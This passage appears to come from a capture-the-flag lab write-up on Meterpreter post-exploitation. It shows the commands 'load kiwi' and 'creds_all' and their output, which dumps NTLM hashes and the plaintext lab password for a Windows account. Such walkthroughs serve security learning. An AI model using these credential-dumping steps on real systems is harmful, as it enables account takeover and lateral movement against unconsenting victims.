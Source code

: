 ***NOTE***: As the command output quite clearly suggest that the extenstion's name has been changed to `kiwi`, it's better to use `load kiwi` instead of `load mimikatz`.

Accessing the `help` menu as instructed:

```console
meterpreter > ?                             

...
...
...

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)

    ...
    ...
```

We get the answer to the next question.

> Which command allows up to retrieve all credentials? \
> > `creds_all`

And running this command gives us the answer to the question after that:

```console
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                          NTLM                         SHA1
--------  ------   --                          ----                         ----
Dark      Dark-PC  e52cac67419a9a22ecb0836909  7c4fe5eada682714a036e393783  0d082c4b4f2aeafb67fd0ea568a
                   9ed302                      62bab                        997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```